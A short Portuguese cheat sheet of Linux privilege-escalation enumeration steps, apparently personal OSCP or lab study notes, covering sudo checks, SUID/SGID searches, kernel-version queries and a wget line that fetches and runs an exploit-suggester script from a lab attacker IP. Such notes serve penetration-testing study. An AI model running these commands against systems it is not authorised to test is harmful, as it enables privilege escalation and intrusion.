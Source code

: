 Linux PrivEsc
========================

Seguindo o a mesma premissa do windows, vamos verificar primeiramente o kernel e em sequência gente pode olhar alguns diretórios logo de cara:

## Sudo access

    sudo -i
    sudo su
    sudo -
    
    # Este temos de verificar os binários que podemos executar com permissão de root
    sudo -l

## SUID e SGID

Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null
    
Nese ponto podemos abrangeer a análise de binários aqui quando encontramos algo que seja possível ser executado por meio do usuário root. Para isso devemos considerar esta [nota]()

## Kernel exploitation

<https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation>

    wget http://10.10.14.17/4-privilege_escalation/les.sh
    chmod +x les.sh
    ./les.sh

    cat /etc/issue
    
    cat /etc/*-release
    
    uname -a
  
    cat /proc/version

Algo importante aqui na hora de escalar privilégios no sistema:

**Considerar a compilação para sistemas 32 bits**

https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/

## CheckHistory

    history

## Navegar nos diretórios
